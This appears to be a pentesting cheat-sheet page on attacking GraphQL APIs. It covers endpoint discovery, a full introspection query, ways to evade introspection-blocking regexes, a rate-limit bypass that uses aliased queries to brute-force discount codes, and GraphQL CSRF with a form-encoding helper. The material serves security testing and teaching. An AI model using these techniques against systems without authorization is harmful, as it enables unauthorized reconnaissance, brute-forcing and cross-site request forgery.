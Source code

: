 ```yaml
---
title: "GraphQL API"
weight: 10
---
```


GraphQL syntax: [https://portswigger.net/web-security/graphql/what-is-graphql](https://portswigger.net/web-security/graphql/what-is-graphql)

---

## Serving over HTTP

**HTTP GET**

GraphQL query should be specified in the "query" query string.

```sh
http://myapi/graphql?query={me{name}}
```

**HTTP POST**

JSON-encoded body

```json
{
  "query": "...",
  "operationName": "...",
  "variables": { "myVariable": "someValue", ... }
}
```

---

## GraphQL endpoints

### Universal queries

Sending `query{__typename}` to a GraphQL endpoint will return `{"data": {"__typename": "query"}}` in the response.

Try with POST, GET or POST with `application/x-www-form-urlencoded`

---

## Common endpoint names

```sh
/graphql
/api
/api/graphql
/graphql/api
/graphql/graphql
/v1/graphql
/v1/api
/v1/api/graphql
/v1/graphql/api
/v1/graphql/graphql
```

More endpoint: [SecLists discovery graphql](https://github.com/danielmiessler/SecLists/blob/fe2aa9e7b04b98d94432320d09b5987f39a17de8/Discovery/Web-Content/graphql.txt)

> **Note**: Response could be "query not present" or similar. (meaning it's present)

---

## Discovering schema information

### Using introspection

To use introspection to discover schema information, query the `__schema` field. (could be disabled in production environments)

```json
{
    "query": "{__schema{queryType{name}}}"
}
```

**Manual**

<details><summary>Running a full introspection query</summary>

```json
    #Full introspection query

    query IntrospectionQuery {
        __schema {
            queryType {
                name
            }
            mutationType {
                name
            }
            subscriptionType {
                name
            }
            types {
             ...FullType
            }
            directives {
                name
                description
                args {
                    ...InputValue
            }
            onOperation  #Often needs to be deleted to run query
            onFragment   #Often needs to be deleted to run query
            onField      #Often needs to be deleted to run query
            }
        }
    }

    fragment FullType on __Type {
        kind
        name
        description
        fields(includeDeprecated: true) {
            name
            description
            args {
                ...InputValue
            }
            type {
                ...TypeRef
            }
            isDeprecated
            deprecationReason
        }
        inputFields {
            ...InputValue
        }
        interfaces {
            ...TypeRef
        }
        enumValues(includeDeprecated: true) {
            name
            description
            isDeprecated
            deprecationReason
        }
        possibleTypes {
            ...TypeRef
        }
    }

    fragment InputValue on __InputValue {
        name
        description
        type {
            ...TypeRef
        }
        defaultValue
    }

    fragment TypeRef on __Type {
        kind
        name
        ofType {
            kind
            name
            ofType {
                kind
                name
                ofType {
                    kind
                    name
                }
            }
        }
    }
```

If introspection is enabled but the query fails, try removing the onOperation, onFragment, and onField directives. Many endpoints don't accept these in introspection queries.

</details>

**Automatic**

<details><summary>Burp</summary>

1. Browse the target application for requests to a GraphQL endpoint
2. Right-click the GraphQL request, select "Send to Repeater"
3. In Repeater, right-click in the Request panel, choose "GraphQL > Set introspection query"&#x20;
4. Click Send. If introspection is enabled, the server will return the full API schema. If you are working with an older GraphQL server, it may fail. So right-click within the Request and select GraphQL > Set legacy introspection query and try again.
5. In the Response panel, right-click and select "GraphQL > Save GraphQL queries to site map." Burp saves discovered queries as nodes on the site map. You can review these queries, and send them to Intruder or Repeater for further investigation or attacks.

[https://portswigger.net/burp/documentation/desktop/testing-workflow/working-with-graphql#accessing-graphql-api-schemas-using-introspection](https://portswigger.net/burp/documentation/desktop/testing-workflow/working-with-graphql#accessing-graphql-api-schemas-using-introspection)

</details>

Now you can easily view relationships between schema entities using a GraphQL visualizer: [https://graphql-kit.com/graphql-voyager/](https://graphql-kit.com/graphql-voyager/)

### Suggestions

Suggestions are a feature of the Apollo GraphQL platform where the server suggests query amendments in error messages. [Clairvoyance](https://github.com/nikitastupin/clairvoyance) is a tool that uses suggestions to automatically recover all or part of a GraphQL schema, even when introspection is disabled.

---

## Bypassing GraphQL introspection defenses

* Developers might use a regex to exclude the `__schema` keyword. Try spaces, new lines, and commas, which GraphQL ignores but flawed regex does not.

    ```json
        #Introspection query with newline
        {
            "query": "query{__schema
            {queryType{name}}}"
        }
    ```

* Try a GET request

    ```json
        # Introspection probe as GET request

        GET /graphql?query=query%7B__schema%0A%7BqueryType%7Bname%7D%7D%7D
    ```

* POST request with a content-type of `x-www-form-urlencoded`

---

## Bypassing rate limiting

Use aliases to return multiple instances of the same type of object in one request.

```json
    #Request with aliased queries

    query isValidDiscount($code: Int) {
        isvalidDiscount(code:$code){
            valid
        }
        isValidDiscount2:isValidDiscount(code:$code){
            valid
        }
        isValidDiscount3:isValidDiscount(code:$code){
            valid
        }
    }
```

---

## GraphQL CSRF

GraphQL can be exploited for CSRF attacks. POST requests with `application/json` content type are secure against forgery if the content type is validated.

GET requests and POST with `application/x-www-form-urlencoded` content type can be sent by browsers.

<details><summary>JS script to convert JSON to application x-www-form-urlencoded</summary>

```javascript
function jsonToUrlEncoded(jsonData) {
    const params = new URLSearchParams();

    for (const [key, value] of Object.entries(jsonData)) {
        if (typeof value === 'object') {
            params.append(key, JSON.stringify(value));
        } else {
            params.append(key, value);
        }
    }

    return params.toString();
}

// To change
const jsonData = {"query":"test","operationName":"test","variables":{"a":1,"b":2}};

const urlEncodedData = jsonToUrlEncoded(jsonData);
console.log(urlEncodedData);

```

</details>
